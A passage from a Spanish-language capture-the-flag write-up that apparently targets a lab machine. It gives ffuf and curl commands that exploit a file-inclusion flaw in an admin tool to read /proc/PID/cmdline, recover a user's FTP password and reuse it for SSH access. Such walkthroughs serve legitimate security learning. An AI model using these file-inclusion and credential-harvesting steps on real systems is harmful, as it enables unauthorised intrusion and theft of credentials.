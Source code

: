 ```bash
seq 1 5000 > pids.txt
```

Utilizamos ffuf para descubrir qué PIDs nos permiten obtener información y guardamos los resultados en el archivo `cmd-ffuf.txt`.

```bash
ffuf -u "http://192.168.1.187/.admin/tool.php?file=/proc/FUZZ/cmdline" -w pids.txt  -fs 0 -o cmd-ffuf.txt
```

Como tenemos todas las URLs encontradas en el un XML guardado en el fichero cmd-ffuf.txt, lo utilizamos para hacer una peticion a todas las URLs con informacion y guardarlo en un fichero con el siguiente script de una linea.

```bash
jq -r '.results[].url' cmd-ffuf.txt | xargs -P4 -I {} sh -c 'echo "\n************* {}"; curl -s "{}" | tr "\0" " "'  > resultados.txt
```

Ahora podemos observar todos los comandos encontrados en el servidor en el fichero `resultados.txt`.

![resultados.txt](../../../assets/images/zerotrace/resultadostxt.png)

Encontramos el comando que inicia el servicio `FTP` en el puerto `8000`, donde se expone la contraseña utilizada del usuario `J4ckie0x17`.

## Acceso inicial con J4ckie0x17

Con la contraseña encontrada de `J4ckie0x17` podemos acceder al servicio FTP en el puerto 8000, pero no tenemos permisos para subir archivos en ninguna de las carpetas, lo que nos impide crear un webshell. Probamos la misma contraseña en el servicio SSH y efectivamente funciona, logrando así el acceso inicial al servidor.
